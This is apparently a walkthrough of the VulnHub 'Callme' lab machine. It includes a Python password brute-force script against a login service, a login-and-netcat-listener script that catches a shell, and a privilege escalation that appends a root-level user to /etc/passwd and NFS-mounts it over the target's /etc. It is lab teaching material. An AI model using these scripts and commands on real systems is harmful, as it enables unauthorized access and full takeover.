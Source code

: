 ```yaml
---
layout: post
title:  "Callme"
categories: [vulnhub]
tags: [python, bruteforce, tcpdump]
---
```


You’ll find this vm here :  `https://www.vulnhub.com/entry/callme-1,615/`

## VulnHub - Callme

#### Port Scan

- Nmap found three open ports: `22`, `111` and `2323`
- For now let's focus on port `2323`

![image]( /assets/img/callme/1.PNG)

#### Finding correct username

- The server asking for username & password<
- After the login attempt with a random credentials, the message "user does not exist" appeared
- This will help us to identify the valid usernames

![image]( /assets/img/callme/2.PNG)

I tried common username like admin, and the message "user does not exist" not appeared.<br> So, `admin` is a valid username

![image]( /assets/img/callme/3.PNG)

####  Creating brute force script

{% highlight python %}
import socket
import time

print("Script by Alienum, vm by Foxlox")
with open('10-million-password-list-top-1000000.txt') as file:
 for password in file:
  username = b"admin"
  ip = "10.0.2.108"
  port = 2323
  s = socket.socket()
  s.connect((ip, port))
  print(s.recv(1024))
  print(s.recv(1024))
  s.send(username+b'\r\n')
  print(s.recv(1024))
  s.send(password.strip().encode()+b'\r\n')
  re = s.recv(1024)
  print(re)
  print(s.recv(1024))
  print(password.strip())
  time.sleep(1.2)
  if not "Wrong password for user admin" in str(re):
   print("FOXYFOXYFOXYFOXYFOXYFOXYFOXY")
   print(password)
   break
{% endhighlight %}

- After a few minutes the password found

![image]( /assets/img/callme/4.PNG)

Each time we successfully log in to the system, it returns a random number in words.<br>Let's understand what it means

![image]( /assets/img/callme/5.PNG)

#### Tcpdump to understand

<code>sudo tcpdump -XX -i eth0 src TARGET_IP</code>

We understand that every time we successfully connect to the server, it tries to connect to the port of our system that it had previously sent in a number with words. For example, if the server sends `ONE THOUSAND FOUR HUNDRED  TWELVE` it tries to connect to our system to port `1412`

![image]( /assets/img/callme/6.PNG)

#### Creating login & listener script

{% highlight python %}
from word2number import w2n
import socket
import time
import os
print("Script by Alienum, vm by Foxlox")

while True:
 username = b"admin"
 password = b"booboo"
 ip = "10.0.2.108"
 port = 2323
 s = socket.socket()
 s.connect((ip, port))
 print(s.recv(1024))
 print(s.recv(1024))
 s.send(username+b'\r\n')
 print(username)
 print(s.recv(1024))
 s.send(password+b'\r\n')
 print(password)
 re = s.recv(1024)
 print(re)
 w2n = w2n.word_to_num(re.decode().lower().strip())
 cmd = "nc -lvnp "+str(w2n)
 os.system(cmd)
{% endhighlight %}


- After running the script we have the shell


![image]( /assets/img/callme/7.PNG)


#### SSH Login, avoid wine shell

![image]( /assets/img/callme/8.PNG)

![image]( /assets/img/callme/9.PNG)

#### Searching fox's password

```
cat startup
find / -name "recallserver.exe" 2>/dev/null
```

![image]( /assets/img/callme/10.PNG)

- strings command not found so we need to download recallserver.exe locally

![image]( /assets/img/callme/11.PNG)

- We found the possible password for user fox, the possible password is `tutankamenFERILLI`

![image]( /assets/img/callme/12.PNG)

#### Privileges Escalation

![image]( /assets/img/callme/13.PNG)

- Writing a user to /etc/passwd locally

{% highlight python %}
openssl passwd -1
Password: alienum
Verifying - Password: alienum
1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/
{% endhighlight %}

``` echo 'alien:$1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/:0:0::/root:/bin/bash' >> /etc/passwd```

![image]( /assets/img/callme/14.PNG)

- In the target system

```
 sudo mount.nfs 10.0.2.106:/etc /etc
```

![image]( /assets/img/callme/15.PNG)

#### Rooted

![image]( /assets/img/callme/16.PNG)
